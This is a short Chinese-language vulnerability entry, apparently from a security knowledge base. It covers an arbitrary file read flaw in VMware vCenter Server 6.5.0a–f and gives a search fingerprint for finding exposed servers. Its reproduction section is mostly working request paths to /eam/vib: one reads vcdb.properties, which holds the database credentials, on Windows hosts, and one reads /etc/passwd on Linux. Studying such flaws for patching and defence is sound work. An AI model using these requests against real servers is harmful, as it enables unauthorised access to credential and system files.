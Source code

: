 # VMware vCenter vid 任意文件读取漏洞

## 漏洞描述
VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、
## 漏洞影响
<a-checkbox checked> VMware vCenter Server 6.5.0a- f 版本</a-checkbox></br>
## 网络测绘
<a-checkbox checked> title="ID_VC_Welcome"</a-checkbox></br>

## 漏洞复现

登录页面

![image-20220311164942992](../../../.vuepress/public/img/image-20220311164942992.png)

<a-checkbox checked> Windows主机</a-checkbox></br>

```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

<a-checkbox checked> Linux主机</a-checkbox></br>

```
/eam/vib?id=/etc/passwd
```

![image-20220311164928273](../../../.vuepress/public/img/image-20220311164928273.png)

